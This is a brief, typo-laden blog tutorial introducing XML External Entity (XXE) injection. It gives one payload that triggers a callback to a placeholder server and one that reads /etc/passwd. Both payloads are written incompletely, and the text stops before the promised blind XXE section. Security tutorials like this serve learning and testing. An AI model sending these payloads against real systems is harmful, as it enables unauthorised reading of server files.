 Hi all,

Welcome to my blog of "From basic XXE to blind XXE"

What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 1. Basic 2. Blind.

Let's talk about 'basic' type:-

For ex you have this url with a parameter that parses XML data. 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. First of all for confirming that you have found vulnerability is by using this payload.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'http://yourserverip/']`

Now let's understand from Doctype portion. As we define the root element i.e. root, next in the DOCTYPE we define the entity and that entity contains SYSTEM attribute which indicate that the entity is External.

Now when you give this code to the server than that server's XML parser will parse the results and it was miconfigured so it will also process our External entity by **requesting to your server.**
So if you got a new connection in the log file then it is confirmed that you have found XXE.

Now it's time to exploit it.

Here you can give this payload `<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd']`

